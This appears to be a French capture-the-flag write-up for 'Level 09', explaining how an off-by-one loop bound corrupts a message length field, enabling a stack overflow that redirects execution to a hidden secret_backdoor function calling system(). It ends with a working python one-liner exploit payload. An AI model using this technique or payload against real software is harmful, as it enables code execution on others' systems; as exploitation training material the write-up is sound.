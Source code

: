 # Level 09

Voilà un petit résumé de ce que fait le programme, en incluant les éventuelles attaques possible.

## Lire le nom d'utilisateur

La première chose que le programme fait, c'est lire un nom d'utilisateur. La fonction
`fgets` ne pause pas de problème, elle est correctement protégée. Le soucis, c'est dans la copie
du buffer vers une structure globale.

```c
struct s_data {
    char    message[140];
    char    username[40];
    int     message_size;
};


void main(void) {
    struct s_data data;
    data.message_size = 140;

    char buf[128];

    fgets(buf, 128, stdin);
    for (int i = 0; i <= 40 && buf[i]; i++)
        data.username[i] = buf[i];
}
```

On peut voir ici une erreur dans la condition d'arrêt de la boucle: `i <= 40` à la place de
`i < 40`. Cela signifie que si l'on entre plus de 40 charactères dans notre nom d'utilisateur, l'un
des caractères va être écrit dans le field suivant `username`. Dans notre cas, c'est l'octet de poid
faible de `message_size`.

Par défaut, `message_size` est initializé à 140. Mais en écrivant un caractère particulier, on peut
choisir n'importe quelle valeur entre 0 et 255.

## Lire le message

La seconde partie du programme a pour but de lire un message qui sera copié dans le field `message`.

Cette fois, aucun bug. La lecture du message est correctement protégée, et la copie se fait du bon
nombre de caractères. Le soucis, c'est que l'opération précédente a corrompu la taille du message.

```c
void main(void) {
    /* ... */

    char buf[1024];

    fgets(buf, 1024, stdin);
    for (int i = 0; i < data.message_size && buf[i]; i++)
        data.message[i] = buf[i];
}
```

La taille totale de la structure est 184 octets. Cela signifie qu'une taille de message
supérieure à 184 va écraser une partie de la stack. Et éventuellement atteindre une adresse de
retour.

On peut trouver que 200 octets de message permettent d'atteindre cette addresse.

## Porte dérobée

En affichant la liste des symboles, on peut trouver un symbol appelé `secret_backdoor`. La
décompilation de cette fonction donne:

```c
void secret_backdoor(void) {
    var buf[128];
    fgets(buf, 128, stdin);
    system(buf);
}
```

L'adresse de cette fonction est `0x000055555555488c`.

## Solution

- 40 'A' pour remplir le nom d'utilisateur.
- 0xD0 (208 en hexa) pour la taille du buffer de message
- `\n` pour terminer l'input du nom d'utilisateur
- 200 'A' pour atteindre l'adresse de retour
- '\x8c\x48\x55\x55\x55\x55\x00\x00' L'adresse de `secret_backdoor`.

```sh
python -c "print('A' * 40 + '\xD0\n' + 'A' * 200 + '\x8c\x48\x55\x55\x55\x55\x00\x00')" | ./level09
```
